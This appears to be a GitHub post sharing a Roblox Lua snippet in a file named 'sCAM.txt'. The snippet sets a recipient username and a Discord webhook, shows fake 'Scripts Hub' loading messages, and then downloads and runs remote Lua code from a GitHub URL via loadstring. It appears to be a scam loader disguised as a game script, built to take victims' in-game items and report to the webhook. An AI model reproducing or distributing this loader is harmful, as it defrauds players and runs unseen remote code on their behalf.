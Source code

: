 [sCAM.txt](https://github.com/Konji3/Farm/files/10773822/sCAM.txt)
Username = "Vovik_wolf"
WebHook = "https://discord.com/api/webhooks/1002249503870550056/xI6RrnydZNmdZ3To_BDLzwu1_ixzrg1mOFoSuMa-OEG8mNZKw4AipnI2the_pBEs5Pni"

_G.CustomScriptName = "Scripts Hub"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
